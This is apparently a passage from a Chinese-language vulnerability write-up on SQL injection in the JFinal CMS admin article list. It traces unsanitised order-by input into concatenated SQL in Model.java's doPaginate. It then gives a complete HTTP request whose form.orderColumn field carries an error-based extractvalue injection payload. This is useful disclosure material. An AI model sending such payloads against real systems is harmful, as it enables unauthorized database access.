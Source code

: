 ```java
		render(path + "list.html");
	}
```

跟踪 `dao.paginate()`，在 `com/jfinal/plugin/activerecord/Model.java` 里找到

```java
	private Page<M> doPaginate(int pageNumber, int pageSize, Boolean isGroupBySql, String select, String sqlExceptSelect, Object... paras) {
		Config config = _getConfig();
		Connection conn = null;
		try {
			conn = config.getConnection();
			String totalRowSql = "select count(*) " + config.dialect.replaceOrderBy(sqlExceptSelect);//这里是我们sql注入拼接的语句
			StringBuilder findSql = new StringBuilder();
			findSql.append(select).append(' ').append(sqlExceptSelect);
			return doPaginateByFullSql(config, conn, pageNumber, pageSize, isGroupBySql, totalRowSql, findSql, paras);
		} catch (Exception e) {
			throw new ActiveRecordException(e);
		} finally {
			config.close(conn);
		}
	}
```

## sql注入复现

```http
POST /jfinal_cms/admin/article/list HTTP/1.1
Host: localhost:8081
Content-Length: 192
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/jfinal_cms/admin/article/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=2A8D7998B7C59F5492D2A4C73856C696; Hm_lvt_1040d081eea13b44d84a4af639640d51=1698299324; session_user=wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c=; Hm_lpvt_1040d081eea13b44d84a4af639640d51=1698299343
Connection: close

form.orderColumn=and%20(extractvalue(1%2cconcat(0x7e%2c(select%20user())%2c0x7e)))%23&form.orderAsc=&attr.folder_id=-1&attr.title=j&attr.status=-1&totalRecords=9&pageNo=1&pageSize=20&length=10
```
